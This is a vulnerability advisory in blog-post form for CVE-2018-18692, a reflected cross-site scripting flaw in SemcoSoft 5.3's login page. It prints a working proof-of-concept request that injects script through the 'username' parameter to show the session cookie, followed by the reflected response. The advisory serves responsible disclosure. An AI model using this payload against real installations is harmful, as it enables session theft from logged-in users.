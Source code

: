 ```yaml
---
layout: post
title: "CVE-2018-18692: Cross-Site Scripting in Semcosoft"
date:   2019-02-14 21:40:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SEMCO Software Engineering GmbH
- Product: SemcoSoft
- Version: 5.3
- Vulnerability: Reflected Cross-Site Scripting


# Background

SEMCO stands for a modern seminar and course management, which supports employees in a time-saving and efficient way in the daily business. It finds its use in company training, coaching, seminars of any orientation and in the area of internal training.

Vendor's website ([SEMCO](https://www.semcosoft.com)):

# Issue Description

As part of a penetration test, a cross-site scripting (XSS) vulnerability was found in the Semco software, which allows an attacker to steal the session cookie of an already logged-in user through a cross-site request-forgery (CSRF) attack.

Reflected cross-site scripting (XSS) occurs when an attacker injects executable code into the browser within a single HTTP response. The injected code is not stored inside the application. It affects users who open a malicious link or a third party website. The injected code is part of a URI or HTTP parameter that was not properly validated by the application and returned to the victim. Such an attack allows an attacker to access information such as session cookies from the user. In the case of the Semco software, this is possible because the parameter "username" of the HTTP GET request is not subjected to any input validation.

By calling the URL, the XSS vulnerability can be exploited and the PHPSESSID, which is stored in a cookie, can be displayed.

__HTTP-Request__

~~~ html
GET /login?username=%22%3E%3C/span%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E%3Cspan%20id=%22username&_e=RvkztFgiQsQI%252FKXLsr48kh%252BgKeVU1jNeaLJ0NZLxQQpE6KO1No9MHbbxa%252Bygv1qv&password=&post=login&remove_duplicate_logins= HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
~~~

__HTTP-Response__

~~~ html
HTTP/1.1 200 OK
Date: Fri, 26 Oct 2018 14:21:48 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.6.36-1~dotdeb+7.1
Set-Cookie: PHPSESSID=tljhfircqdj32t7gj4q8vjk042; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 6635
Connection: close
Content-Type: text/html; charset=utf-8

...[SNIP]...

<div>
	<form name="loginform" id="loginform" method="post" action="/login?post=login" class="inhaltform" style="margin: 0 0 200px 0;">
    <input type="hidden" id="remove_duplicate_logins" name="remove_duplicate_logins" value="0">
		<fieldset>
			<h3>Login</h3>
			<div class="formzeile">
			<label>Benutzer</label>
			<span class="textfeld"><input name="username" type="text" id="username" value=""></span><script>alert(document.cookie)</script><span id="username"></span>
			</div>
			<div class="formzeile">
			<label>Passwort</label>
			<span class="textfeld"><input name="password" type="password" id="password" value=""></span>
			</div>
		</fieldset>

...[SNIP]...
~~~

# CVE

[CVE-2018-18692](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18692)

# CVSSv3 Base Score

CVSS Base Score: __5.5__

CVSS:3.0/AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2018 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
